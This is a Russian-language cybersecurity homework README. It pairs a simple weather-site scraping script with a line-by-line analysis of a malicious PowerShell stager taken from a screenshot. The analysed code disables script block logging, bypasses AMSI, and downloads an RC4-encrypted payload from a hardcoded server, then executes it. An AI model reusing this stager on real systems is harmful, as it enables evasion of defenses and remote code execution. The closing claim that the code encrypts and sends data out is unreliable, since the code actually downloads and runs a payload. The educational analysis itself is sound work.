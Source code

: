 # Домашнее задание №27: Scripting, web, python

1) Написать python-script для автоматизации часто выполняемых действий, либо парсинга сайта для получения нужной информации  

2) Расписать действия PowerShell скрипта  
![ScriptTask](https://github.com/StsiapanSikorsky/Cybersecurity_TMScourse/blob/main/Task_27/img/ScriptTask.png)  

Ссылки на дополнительные ресурсы:  
- [Создание symbo table для кастомных ядер](https://blog.tofile.dev/2022/08/22/cloud-forensics.html)  
- [HTML5 templates](https://html5up.net/)  

## 1) Python-script для парсинга сайта погоды  

Перед началом, на сайте погоды, необходимо найти часть, которая хранит значения погоды в Минске. Через консоль разработчиа (F12) поэтапно разворачивая тэги находим нужный   
![Py_1]()  

После чего приступаем к написанию скрипта  

```python
#!/usr/bin/env python3

#импорт библиотек
from bs4 import BeautifulSoup
import requests

#адрес сайта который парсим
url = 'https://yandex.by/pogoda/minsk?lat=53.902735&lon=27.555691'

#проверка связи с сервером
response = requests.get(url)
print(response)

#получение страницы в формате lxml
bs = BeautifulSoup(response.text, "lxml")
#print(bs)

#поиск значения по тэгу и его классу
temp = bs.find('span', 'temp__value temp__value_with-unit')
print(temp.text)
```

## 2) Действия скрипта PowerShell  
``` powershell
IF ($PSVersionTABLE.PSversion.Major=ge3)  
```

- 2.1 Строка провверяет установлен ли в системее PowerShell через встроенную переменную PSVersionTable. PSVersion - свойство, которое представляет номер версии в виде объекта. =ge - оператор сравнения. В случае true, выполняются действия до описания 2.5 включительо.  

``` powershell
>$GPF=[REF].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySetings','N'+'onPublic,Static');  
```

- 2.2 Если условие было выполнено выполнение строки выше предоставляет доступ к закрытому статическому полю **cachedGroupPolicySetings** класса **System.Management.Automation.Utils**. [REF] - тип в PowerShell позволяющий работать на объекты и ссылки, которые не доступны напрямую.  

``` powershell
>if($GPF){
    $GPC=$GPF.GetValue($NULL);
    if($GPC['ScriptB'+'lockLogging'])
    {
        $GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
        $GPC['ScriptB'+'lockLogging']['EnableScriptBlockinvocationLogging']=0;
    }
    $vAl=[Collections.Generic.Dictionary[string,system.object]]::new();
    $Val.Add('EnableScriptB'+'lockLogging',0);
    $VAL.Add('EnableScriptBlockinvocationLogging',0);
    $GPC[*HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\'ScriptB'+'lockLogging']=$VAI
}
```

- 2.3 Фрагмент пытается изменить настройки, связанные с логгированием блока скриптов. Вложенное условие проверяет есть ли настройка ScriptBlockLogging в $GPC и если она существует отключает логгирование (установка EnableScriptBlockInvocationLogging в 0). Последняя строка используется для установки ключа реестра. 

``` powershell
else
{
    [ScriptBlock]."GetFeld"('signatures','NonPublic','Static').SetValue($Null,(New-ObjectCollections.Generic.HashSet[string]))
}
``` 

- 2.4 Блок используетя, если условие if($GPF) вернуло false. В нем код использует рефлексию для доступа к закрытому статическому полю signature в классе ScriptBlock. Метод SetValue вызывается для установленного поля, чтобы задать его значение как новый пустой HashSet<string>. Это эффективно очищает любые существующие подписи, которые PowerShell использует для идентификации подозрительной активности, что может быть полезно для уклонения от обнаружения механизмами безопасности.  

``` powershell
[REF].Assembly.GetType('System.Management.Automation.AmsiUtils') |?{$_}| 
%{
    $_.GetField('amsilnitFailed','NonPublic,Static').SetValue($NULL, $True)
}
``` 

- Команда предназначена для манипуляции статическим полем amsiInitFailed класса AmsiUtils, что позволяет обойти проверки Antimalware Scripting Interface (AMSI). Команда начинается с доступа к классу AmsiUtils в пространстве имен System.Management.Automation с использованием рефлексии. Этот класс отвечает за взаимодействие с AMSI. Часть | ?{$_} фильтрует результаты, но поскольку сразу за ней следует %{}, это фактически не имеет значительного эффекта. Оператор %{} используется для итерации по каждому элементу в конвейере. Внутри цикла метод GetField('amsiInitFailed', 'NonPublic', 'Static') извлекает закрытое статическое поле с именем amsiInitFailed. Это поле указывает, произошла ли ошибка инициализации AMSI. Метод SetValue($NULL, $True) устанавливает это поле в значение $True, что сигнализирует о том, что инициализация AMSI завершилась неудачно. Когда этот флаг установлен в true, последующие вызовы AMSI для сканирования содержимого будут игнорироваться, что фактически отключает защитные меры AMSI.

``` powershell
[System.Net.ServicePolntManager]::Expect100Continue=0;  
$WC=New-ObjectSystem.Net.Webclient;  
$u='Mozila/5.0(WindowsNT6.1; WOW64; Trident/7.0; rv:11.0) likeGecko';  
$WC.Headers.Add('User-Agent', $u);  
``` 

- В начале блока отключается заголовок "Expect:100-continue". Вторая строка создает новый объект WebClient, использующийдля отправки HTTP-запросов и получения ответов от веб-сервера. $u задает строку User-Agent, которая будет отправлена вместе с запросами. Последняя строка добавляет заголовок User-Agent к запросам, отправляемым через объект WebClient.  

``` powershell  
$WC.Proxy=[System.Net.WebRequest]::DefaltWebProxy;  
$WC.Proxy.Credentials=[System.Net.CredentialCache]::DefaultNetworkCredentials;  
$Script:Proxy=$WC.Proxy;  
$K=[System.Text.Encoding]::ASCII.Getbytes('99754106633f94350db34d548d6091a');  
```   

- В приведенном выше блоке устанавливается и настраиваются параметры прокси для объекта WebClient. DefaultNetworkCredentials автоматически получает учетные данные текущего пользователя для аутентификации на прокси сервере. Последняя строка кодирует строку с использованием кадировки ASCII, предположительно используется для передачи данных по сети.  

``` powershell  
$R=($D, $K=$args; $S=0...255)|%
{
    $J=($J+$S[$_]+$K[$_%$L.count])%256;
    $S[$_], $S[$J], $S[$_]
};
$D|%
{
    $I=($I+1)%256;
    $H=($H+$S[$I])%256;
    $S[$I], $S[$H]=$S[$H], $S[$I];
    $_-bXOR $S[($S[$I]+$S[$H])%256]
};  
$ser="http://10.6.100.123:80";
$t='/news.php';
$WC.Headers.Add("Cookie","session=8xD4koAuu7Hah4KQzwZ/kDq4Oc=");  
$Data=$WC.DownloadData($SER+$T);
$IV=$Data[0..3];
$Data=$Data[4..$Data.lenghth];
-join[Char[]](&$R$Data($IV+$K))|IEX    
```   

- Код выполняет функцию шифрования RC4, после чего отправляют данные на указанный URL 


>[!IMPORTANT]   
Таким образом представленный на сриншоте код вредоноса, обходит защиту устройства, устанавливает прокси соединение с сервером управлния, шифрует данные при помощи алгоритма RC4 и отправляет их на сервер управления.